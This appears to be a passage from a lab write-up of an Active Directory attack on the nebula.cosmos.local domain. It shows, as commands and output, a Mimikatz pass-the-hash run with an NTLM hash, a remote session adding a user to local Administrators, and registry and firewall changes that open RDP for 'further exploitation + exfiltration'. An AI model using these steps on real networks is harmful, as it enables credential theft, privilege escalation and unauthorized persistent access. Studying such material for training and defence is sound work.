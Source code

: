 ```powershell
PS C:\ad\tools> Invoke-Mimikatz -Command "sekurlsa::pth /user:uatadmin /domain:nebula.cosmos.local /ntlm:271B74BE505CD48CEF768D0D973E59E7 /run:powershell.exe"

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:uatadmin /domain:nebula.cosmos.local /ntlm:271B74BE505CD48CEF768D0D973E59E7 /run:powershell.exe
user    : uatadmin
domain  : garrison.castle.local
program : powershell.exe
impers. : no
NTLM    : 271b74be505cd48cef768d0d973e59e7
  |  PID  4428
  |  TID  1292
  |  LSA Process is now R/W
  |  LUID 0 ; 1820938 (00000000:001bc90a)
  \_ msv1_0   - data copy @ 0000026480392C00 : OK !
  \_ kerberos - data copy @ 0000026480082500
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000026481000000 (32) -> null
```

using the NTLM hash instead of the password to authenticate launches a new PowerShell process that runs with the `UATADMIN` credentials. 

i can then add `bilal` to the local Administrators group on both the `UATADMIN` and `UATSRV` machines. 

```powershell
PS C:\Windows\system32> $sess = New-PSSession -ComputerName uatsrv.nebula.cosmos.local 
PS C:\Windows\system32> Enter-PSSession -Session $sess [uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> net localgroup administrators /add nebula\bilal 

The command completed successfully.
```

finally, let's enable RDP on the machine. i'll modify the Windows Registry to allow RDP connections, then enable the necessary firewall rule. this will give me GUI access to the machine, which could come in handy for further exploitation + exfiltration.

```powershell
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
uatsrv 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
Ok.

[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp
```
